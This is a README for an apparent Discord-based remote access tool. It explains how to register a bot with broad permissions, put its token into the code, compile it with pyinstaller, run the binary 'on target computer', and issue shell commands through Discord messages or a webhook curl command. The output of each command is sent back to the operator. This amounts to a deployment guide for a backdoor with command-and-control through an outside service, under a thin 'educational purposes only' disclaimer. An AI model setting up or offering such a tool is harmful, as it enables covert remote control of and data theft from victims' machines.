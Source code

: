 # Requirements
Python3

Discord

Discord BOT

Discord Webhook (optional, only if you don't want to interact directly with the server)


### Python Libs (you can install manually, or just run 'pip install -r requirements.txt'
discord.py ( ```pip install discord``` )

pyinstaller ( ```pip install pyinstaller``` )


# Guide
### Discord Bot
First, go to the discord developer application portal (https://discord.com/developers/applications) and create a new application.

In your apllication, go to "Bot" section, and click "Reset Token" button (you will use this token in the code). Select the "Message Content Intent" option.

Go to OAuth2 section, in "OAuth2 URL Generator" select "bot" option, and give the permissions "View Channels", "Send Messages", "Read Message History". Instead, if possible, you can just give the "Administrator" permission.

Copy the generated URL, paste in your browser, and add the bot to your server.

### Installation
Copy the Bot Token, and paste in the code.

Add the discord name of the users that will send the commands.

Compile to executable using pyinstaller: 
```
pyinstaller --onefile /path/to/main.py
```
The binary will be generated inside the "dist" folder. 

Now just execute the file on target computer, and send the commands on any text-channel of the discord server. 

The bot will read the message, and if the message owner is present on the list, it will execute the code and return the output.


### Webhook (Optional)

You also can use webhooks to send the commands, that way you won't interact directly with the server.

Go to Discord Server Settings > Integrations > Webhooks

Click "New Webhook", give it a name, select which channel the webhook will send the messages for you, and copy the webhook URL.

Now, you can use this command to send the commands with the webhook:
```
curl WEBHOOK_URL -H "Content-Type: application/json" --data "{\"content\": \"whoami\"}"
```




## Disclaimer: This project is for educational purposes only, I do not take responsibility for what you will do
